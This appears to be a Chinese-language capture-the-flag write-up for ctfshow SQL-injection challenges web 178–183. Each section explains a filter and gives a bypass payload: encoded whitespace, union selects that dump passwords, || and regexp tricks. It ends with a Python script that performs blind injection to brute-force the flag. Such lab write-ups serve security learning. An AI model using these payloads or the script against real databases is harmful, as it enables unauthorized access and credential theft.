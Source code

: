 ## web 178

过滤了`/**/`注释符，上一题payload还能用

```sql
1'union%09select%091,2,password%09from%09ctfshow_user%23
```

## web 179

%09被过滤了，%0c还能用

```sql
1'union%0cselect%0c1,2,password%0cfrom%0cctfshow_user%23
```

## web 180

过滤了注释符#，--，使用单引号闭合。同时使用group_concat函数将结果合并


```sql
-1'union%0cselect%0c1,2,group_concat(password)%0cfrom%0cctfshow_user%0cwhere%0c'1'='1
```

## web 181

参考了大佬的文章，在mysql中，sql语句可以用符号表示逻辑运算符，||与or等效

传入

```sql
1'||username='flag
```

## web 182

过滤了flag,sql正则匹配flag，圆括号包裹字段名

```sql
0'||(username)regexp'f
```

最后换为f,l,a,g都可以匹配到

## web 183

这题通过聚合函数count()，对查询的结果统计，来判断查询是否成功实现盲注。过滤了等号=，还有regexp正则和like模糊匹配

```python
#author:yu22x
import requests
import string
url="http://0be2b54b-f4b2-4843-a369-5878015eeca6.challenge.ctf.show/select-waf.php"
s=string.digits+string.ascii_lowercase+"{_-}"
flag=''
for i in range(1,45):
  print(i)
  for j in s:
    data={
    'tableName':f'(ctfshow_user)where(pass)regexp("^ctfshow{flag+j}")'
    }
    #print(data)
    r=requests.post(url,data=data)
    #print(r.text)
    if("user_count = 1"  in r.text):
      flag+=j
      print(flag)
```